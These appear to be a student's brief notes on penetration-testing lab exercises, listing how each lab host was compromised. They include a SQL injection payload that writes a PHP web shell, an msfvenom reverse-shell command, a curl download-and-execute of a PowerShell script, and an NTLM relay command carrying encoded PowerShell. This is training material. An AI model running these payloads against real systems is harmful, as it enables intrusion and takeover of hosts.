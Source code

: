 ### 10.3.2.4

added the ip to /etc/hosts
scanned the website using wpscan
exploited sqli using sqlmap
uploaded reverse shell using wordpress plugin
got user as www-root
flag.txt in /var/www

### 10.3.2.5

email subscribe field in home page
boolean based sqli in post request with item mail-list
write php shell to file using sql injection
mail-list=' UNION SELECT null, null, null, null,"<?php echo system($_GET['cmd']);?>", null  INTO OUTFILE "/var/www/html/web1.php" -- //
http://forestsave.lab/web1.php?cmd=cat%20../flag.txt


### 10.3.2.7
SQLi in login 
xp_cmdshell working
uploaded powershell reverse shell and got reverse connection

### 11.3.1.3

Follow the walkthrough

### 12.4.1.1

Mouseserver exploit
49601

### 12.4.1.2

CVE : CVE-2021-41773

### 12.4.1.3

all port scan using nmap 
james smtp server running use exploit 50347
change port numbers according to nmap

### 13.2.3.2

same as walkthrough of fixing web exploits
took reverse shell using bash one liner reverse shell passing in cmd param

### 13.2.3.3
directory brute force with common.txt and big.txt no results

used exploit 46481 and used any jpeg image

### 13.2.3.4

found port 20000
enumerated port further with nmap -A and nmap -sV
easy chat server running 
tried with application locally
only changed payload with stageless reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.217 LPORT=1990 -f python -b "\x00\x20" -v shellcode
fire

### 14.3.3.2

used shellter as mentioned in walkthrough

### 14.3.3.4

created a bat file to download powershell script and then execute it
since the script is in 32 bit, faced problem in executing because powershell cmd spawns 64 bit so used following
curl http://192.168.1.11:9090/exec.ps1 -o exec.ps1
%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass .\exec.ps1
![[exec.ps1]]

### 15.3.3

same as given in walkthrough
use unc path for file upload after setting up responder
//192.168.45.230/share/ack1.php

### 15.3.4.1
same as walkthrough 
powershell encoding is tricky
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.221.212 -c "powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFM

### 15.3.4.2

same as above with command injection
